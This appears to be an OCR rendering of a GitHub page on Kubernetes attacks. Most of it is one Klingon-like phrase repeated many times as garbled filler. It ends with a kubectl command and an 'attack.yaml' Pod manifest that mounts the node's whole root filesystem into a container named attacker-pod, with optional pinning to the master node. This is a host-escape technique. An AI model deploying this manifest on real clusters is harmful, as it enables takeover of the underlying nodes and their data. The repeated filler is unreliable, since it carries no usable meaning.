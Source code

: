 vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay' vaj vItlhutlh vay'
```bash
kubectl get pod <name> [-n <namespace>] -o yaml
```
> **ghItlhvam**: vaj pod yInobDaqDaq, 'ej vaj labels yInobDaqDaq 'e' vItlhutlh.
>
> `k get nodes --show-labels`
>
> jatlhlaHbe', kubernetes.io/hostname 'ej node-role.kubernetes.io/master labels vItlhutlh.
>
> [reference]: https://kubernetes.io/docs/concepts/scheduling-eviction/assign-pod-node/

ngoD 'attack.yaml' file vItlhutlh.
```yaml
apiVersion: v1
kind: Pod
metadata:
labels:
run: attacker-pod
name: attacker-pod
namespace: default
spec:
volumes:
- name: host-fs
hostPath:
path: /
containers:
- image: ubuntu
imagePullPolicy: Always
name: attacker-pod
command: ["/bin/sh", "-c", "sleep infinity"]
volumeMounts:
- name: host-fs
mountPath: /root
restartPolicy: Never
# nodeName and nodeSelector enable one of them when you need to create pod on the specific node
#nodeName: master
#nodeSelector:
#  kubernetes.io/hostname: master
# or using
#  node-role.kubernetes.io/master: ""
```
[original yaml source](https://gist.github.com/abhisek/1909452a8ab9b8383a2e94f95ab0ccba)
